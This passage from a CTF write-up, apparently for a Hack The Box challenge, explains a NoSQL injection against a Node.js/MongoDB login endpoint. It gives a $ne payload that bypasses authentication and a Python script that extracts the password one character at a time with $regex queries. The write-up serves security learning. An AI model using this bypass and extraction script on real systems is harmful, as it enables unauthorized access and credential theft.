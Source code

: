 This is a problem, because we can't send an arbitrary JSON object this way (or at least, I haven't managed to find any way of doing so). Luckily, when re-reading the `index.js` file in the backend code, we were able to find the following code:
```
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ 
  extended: true 
}));
```

This means that we can send JSON data to the server instead and it won't complain about it. Now that we can send an arbitrarily complex body to the server, we can move on with the actual exploit. I tried to put a `__proto__` field in the JSON being sent to the server but it looks like it gets sanitized, so prototype pollution doesn't seem to be a valid option. Apart from that, we can't control the `pretty` parameter mentioned in the other vulnerability I found, so that CVE is useless as well.

It looks now like we are going to need to do something a bit more clever to get the password. If we look again at how the mongo query is being made, we could wonder what would happen if we started sending mongo directives in the body of the request. More concretely, if we send `{username: {$ne: ""}, password: {$ne: ""}}` to the server, we can see that the server answers back `{logged: 1, message: "Login Successful, welcome back admin."}`. This means that we can insert any mongo function in those fields and the server will happily execute them. This is known as NoSQL Injection.

But how can we take advantage of this? Our goal is not just to bypass the authentication process, but to retrieve the password. Well, we can use regular expressions to see if a partial password matches the one in the database and, if it does, we can start adding characters to it until we hit the next correct partial password. This is a tedious process, so we might as well automate it:

> Before automating the exploit and executing it, it is important to check that we are not violating the terms of service of HTB, and the rules of the CTF. After reading through these documents, I didn't find any rule against this kind of attack. Moreover, this strategy is the intended solution to one of the challenges on HTB, so I assumed it was safed to go on with it.

```
import requests
import string


validChars = string.ascii_lowercase + '0123456789_}'

payload = {
    'username': {'$ne': 'asd'},
    'password': {'$regex': 'CHTB{'}
}

while(True):
    res = None
    for i in range(len(validChars)):
        payload['password']['$regex'] += validChars[i]
        r = requests.post('[remoteInstance]/api/login', json=payload)
        res = r.json()
        if res['logged'] == 1:
            res = validChars[i]
            break
        else:
            payload['password']['$regex'] = payload['password']['$regex'][:-1]
    if res == None:
        print("Couldn't find suitable character. Try adding letters to the alphabet")
    else:
        print(payload['password']['$regex'])
        if res == '}':
            break
```
